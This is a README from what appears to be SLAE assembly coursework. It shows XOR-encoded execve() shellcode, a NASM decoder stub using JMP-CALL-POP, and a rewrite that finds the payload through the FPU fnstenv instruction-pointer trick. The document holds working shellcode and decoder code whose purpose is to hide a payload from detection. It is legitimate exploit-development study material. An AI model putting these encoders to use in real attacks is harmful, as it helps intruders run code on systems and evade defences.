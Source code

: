 # SLAE-FPU_Instructions_Rewrite
Using FPU instructions rewriting the XOR decoder assembly in SLAE course

The orginal execve() shellcode that's been XOR encoded with 0xAA value
---

```
0x9b,0x6a,0xfa,0xc2,0x85,0x85,0xd9,0xc2,0xc2,0x85,0xc8,0xc3,0xc4,0x23,0x49,0xfa,0x23,0x48,0xf9,0x23,0x4b,0x1a,0xa1,0x67,0x2a
```

The XOR decoder nasm 
---
```
; Filename: xor-decoder.nasm
global _start			

section .text
_start:

	jmp short call_decoder

decoder:
	pop esi
	xor ecx, ecx
	mov cl, 25


decode:
	xor byte [esi], 0xAA
	inc esi
	loop decode

	jmp short Shellcode



call_decoder:

	call decoder
	Shellcode: db 0x9b,0x6a,0xfa,0xc2,0x85,0x85,0xd9,0xc2,0xc2,0x85,0xc8,0xc3,0xc4,0x23,0x49,0xfa,0x23,0x48,0xf9,0x23,0x4b,0x1a,0xa1,0x67,0x2a
```
This XOR decoder using JMP-CALL-POP technique to get the address of the shellcode and decoding with 0xAA.

Rewriting this with FPU instructions
---
```
; Filename: fpu-xor-decoder.nasm

global _start			

section .text
_start:
	
	xor ecx, ecx
	mov cl, 25
	fldpi
	fnstenv [esp-0xc]
	pop esi

decode:

	xor byte [esi+0x10], 0xAA
	inc esi
	loop decode
	
	jmp short Encoded

Shellcode:
	Encoded: db 0x9b,0x6a,0xfa,0xc2,0x85,0x85,0xd9,0xc2,0xc2,0x85,0xc8,0xc3,0xc4,0x23,0x49,0xfa,0x23,0x48,0xf9,0x23,0x4b,0x1a,0xa1,0x67,0x2a
```
FPU Instructions:
- fnstenv will store the address of last FPU instructions onto the destination

In our case fnstenv will store the environments at esp-0xc, which will luckily allow us to get the instruction pointer at address of esp after fnstenv instruction.

Refer to: 
[!](./FPU_State_Image.png)
According to Intel FPU state image in momery, the instruction pointer offset is at the position of third double word. 
pop esi will get the address of fldpi

Figuring out the number of byte from fldpi to Encoded shellcode will be our last step. 


